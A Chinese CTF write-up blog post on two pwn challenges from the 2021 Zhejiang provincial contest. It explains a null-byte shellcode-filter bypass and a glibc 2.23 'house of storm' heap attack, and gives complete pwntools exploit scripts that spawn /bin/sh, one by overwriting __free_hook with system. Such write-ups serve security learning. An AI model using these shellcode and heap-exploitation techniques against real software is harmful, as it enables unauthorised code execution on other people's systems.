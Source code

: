 ```yaml
---
layout:     post
title:      浙江2021省赛
subtitle:   pwn wp
date:       2021-10-24
author:     X1ng
header-img: 省赛.jpg
catalog: true
tags:
    - 比赛
    - wp

---
```


开始比赛前发现IDA打不开了。。。。难度不大，但是学到了新知识，，感谢 **@Alter**赛后科普house of strom

太菜了太菜了

### sxmz

逻辑很简单，输入shellcode，通过特定检测后直接执行shellcode，输入的字节为`\n`会填充对应位置内存为`\x00`，检测字符的时候遇到`\x00`结束检查，让shellocde的首字节为`\x00`绕过检查，首字节为`\x00`的汇编语句大多是形如`add	BYTE PTR [esi], al`这样的，查看寄存器确保对应寄存器所指向的地址可写，之后写shellcode调用`execve("/bin/sh",0,0)`即可

```python
#!/usr/bin/python

from pwn import *
import sys
context.log_level = 'debug'
context.arch='i386'

local=0
binary_name='sx'
e=ELF("./"+binary_name)

if local:
    p=process("./"+binary_name)
else:
    p=remote('152.136.122.197', 51501)

def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass

ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()

def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))

ru('少侠，请问尊姓大名：')

text='''
add	BYTE PTR [esi], al;


mov esi,eax;


xor edx,edx;


xor ecx,ecx;


mov eax,11;


mov ebx,esi;


add ebx,0x14;


int 0x80;

'''
opcode=asm(text)
print(opcode)
sl(opcode+b'/bin/sh')

ia()
```



### LargeRoom2

glibc-2.23下的house of strom（2.29版本以下可以用）：核心思想在于将个目标地址作为fake_chunk，通过unsorted_bin attack将fake_chunk放到unsorted_bin列表中，利用large_bin attack将fake_chunk的size位字节改为`\x55`（堆地址的最高位一般为`\x55`或`\x56`），申请`0x50`大小的chunk就能申请到目标地址，实现任意地址写

这题在edit的时候存在off-by-null漏洞，并且有个函数直接申请0x50大小的chunk，构造两个大chunk分别放在large_bin和unsorted_bin，unsorted_bin中的chunk要比large_bin中的略微大一点，但是要保证两者在large_bin中存放在同一index下，然后覆盖unsorted_bin的bk和large_bin的bk、bk_nextsize，再申请0x50即可任意地址写

exp：

```python
#!/usr/bin/python

from pwn import *
import sys
context.log_level = 'debug'
context.arch='amd64'

local=1
binary_name='LargeRoom2'
libc_name='libc.so.6'

libc=ELF("./"+libc_name)
e=ELF("./"+binary_name)

if local:
    p=process("./"+binary_name)
else:
    p=remote('152.136.122.197', 51200)

def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass

ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()

def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))

def cho(num):
	sla('Your choice :',str(num))

def add(sz):
	cho(1)
	sla('Size:',str(sz))

def edit(idx, val):
	cho(4)
	sla('The id of room:',str(idx))
	sla('New Content:',val)

def show(idx):
	cho(2)
	sla('The id of room:',str(idx))

def delete(idx):
	cho(3)
	sla('The id of room:',str(idx))

def lea(val):
	cho(5)
	sla('Your name:',val)


add(0x3f8)
add(0x418)#1 overlap

add(0x3f8)
add(0x3f0)
delete(0)
edit(1,b'a'*0x410+p64(0x420+0x400))
delete(2)
add(0x3f8)
add(0x900)

show(1)
ru('\n')
libcbase=leak_address()-0x3c5068
print('[+]libcbase: '+hex(libcbase))
system=libc.sym['system']+libcbase
print('[+]system: '+hex(system))
free_hook=libc.sym['__free_hook']+libcbase
print('[+]free_hook: '+hex(free_hook))

add(0x810)

add(0x508)#5

add(0x408)#6 overlap

add(0x3f8)
add(0x3f0)
delete(5)
edit(6,b'b'*0x400+p64(0x510+0x410))

delete(7)
add(0x508)
add(0xa000)
delete(4)

edit(5,'/bin/sh')
fake_chunk=free_hook-0x10
edit(1,p64(0)+p64(fake_chunk))
edit(6,p64(0)+p64(fake_chunk+8)+p64(0)+p64(fake_chunk-0x18-5))
lea(p64(system))
delete(5)



ia()
```







